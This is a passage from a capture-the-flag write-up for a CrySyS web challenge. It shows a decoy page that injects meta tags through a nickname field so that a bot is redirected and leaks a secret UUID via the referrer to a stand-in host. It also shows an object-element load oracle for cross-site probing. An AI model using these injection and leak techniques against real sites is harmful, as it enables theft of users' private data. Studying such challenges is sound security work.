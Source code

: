 ```html

        async function stealUuid() {
            await setNickname(`
                </title>
                <meta name="referrer" content="unsafe-url">
                <meta http-equiv="refresh" content="0; url='http://example.com:8000'">
                <title>
            `)

            location.href = "https://initiative.secchallenge.crysys.hu/random";
        }

        stealUuid()
</script>
</html>
```

We need to host this file somewhere, say at http://example.com:8000/decoy.html and send the 
URL to the report page. Soon after the bot visits `decoy.html` and starts executing the script. 
It sets its own nickname then navigates to a random blueprint which 
redirects it to http://example.com:8000 where we can capture the referrer and get a valid blueprint 
uuid. 

That's progress! 

### Now go for the flag...

I was a bit surprised but we can load `https://initiative.secchallenge.crysys.hu` into an html `object` element, 
and we can even check if it was loaded successfully.  The following function creates an object element
loads an url and resolves a promise with the outcome of the load.

```javascript
    function loadUrlInObjectElement(url) {
        let s = document.createElement('object');
        document.body.appendChild(s);

        return new Promise((resolve) => {

            // this will be triggered when the page loads successfully
            s.onload = () => {
                resolve(true);
            }

            // this will be triggered in case of 404
            s.onerror = () => {
                resolve(false)
            }

            // just to make it always terminate
            setTimeout(() => {
                resolve(false);
            }, 800);

            // let's start loading the url
            s.data = url;
        }).finally(() => {
            // s.remove();
        }).catch(() => {
            return false;
        });
    }
```
